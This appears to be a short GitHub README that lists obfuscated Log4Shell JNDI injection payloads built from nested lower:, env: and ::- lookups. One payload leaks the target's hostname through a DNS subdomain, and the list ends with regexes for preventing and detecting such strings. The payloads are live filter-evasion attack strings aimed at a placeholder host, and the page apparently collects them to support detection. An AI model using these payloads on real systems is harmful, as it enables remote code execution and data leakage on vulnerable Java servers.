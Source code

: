 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

${jndi:ldap://{$date:YYYYMMddHHmmss}.test/a}

```

# Regex

Pattern match to capture all of above

Prevent
```

.*\$\{.{0,25}[jJ].{0,25}[nN].{0,25}[dD].{0,25}[iI].{0,150}:.{0,5}\/.*\}

```
Detect
```

\$(\{|\%7[bB])(\$(\{).+[jJ]|[jJ])\}*(\$\{.+[nN]|[nN])\}*(\$\{.+[dD]|[dD])\}*(\$\{.+[iI]|[iI])\}*(\$\{.+\:|\:).*(\}|\%7[dD])

```
